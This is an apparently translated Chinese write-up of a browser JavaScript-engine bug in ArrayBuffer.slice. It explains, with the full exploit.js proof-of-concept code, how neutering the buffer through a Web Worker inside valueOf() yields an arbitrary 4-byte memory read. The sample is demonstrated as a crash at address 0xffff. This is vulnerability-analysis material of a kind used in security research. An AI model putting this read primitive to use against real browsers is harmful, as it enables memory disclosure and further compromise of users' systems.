 然后是exploit.js的部分，包含了攻击的逻辑。当点击“Transfer/neuter ArrayBuffer”按钮的时候，leak_dword(0xffff)函数被调用。leak_dword()函数接受一个内存地址作为参数，然后利用这个漏洞在这个地址读取4bytes内容。这里读取0xffff地址的内容，出发了一个访问异常，来做为演示。

最有趣的部分是Trigger类的代码，它的构造函数接受对象的end_offset作为一个ArrayBuffer的实例当做参数。这个类也实现了valueOf()函数，其被原生函数Js::ArrayBuffer::EntrySlice()调用到的时候，即把ArrayBuffer的从属关系交给一个新的Web Worker，从而实现结扎ArrayBuffer，最后返回对象的end_offset。

同样注意下leak_dword()把一个Trigger类的实例当做第二个参数调用漏洞函数slice()。

```
(function () {
    var the_worker = null; // Will contain a reference to a Web Worker "thread".

    function initialize() {
        document.getElementById('workersButton').addEventListener('click', handle_workersButton, false);
    }

    document.addEventListener("DOMContentLoaded", initialize, false);


    function Trigger(end_offset, arrbuf){
        this.end_offset = end_offset;
        this.arrbuf = arrbuf;
    }

    /* This method gets called from the middle of the Js::ArrayBuffer::EntrySlice() native function */
    Trigger.prototype.valueOf = function() {
        this.neuter_arraybuffer();
        return this.end_offset;
    }

    Trigger.prototype.neuter_arraybuffer = function() {
      if (the_worker) {
        the_worker.terminate();
        the_worker = null; // Allow the garbage collector to clean up the Web Worker object.           
      }

      the_worker = new Worker('the_worker.js');

      the_worker.onmessage = function(evt) {
        if (evt.data.msg){
            document.getElementById('outputBoxWorkers').innerHTML = evt.data.msg;
        }

      }
      /* Neuter the ArrayBuffer by transferring its ownership to a new Web Worker */
      the_worker.postMessage(this.arrbuf, [this.arrbuf]);

    }

    /* Returns a 32-bit integer with the leaked dword value */
    function leak_dword(address){
        var arrbuf = new ArrayBuffer(address + 0x10);
        var trigger = new Trigger(address + 4, arrbuf); 
        var kslice = arrbuf.slice(address, trigger);
        return new DataView(kslice).getUint32(0, true);
    }


    function handle_workersButton(){
        var trampoline_addr = leak_dword(0xffff);
    }

```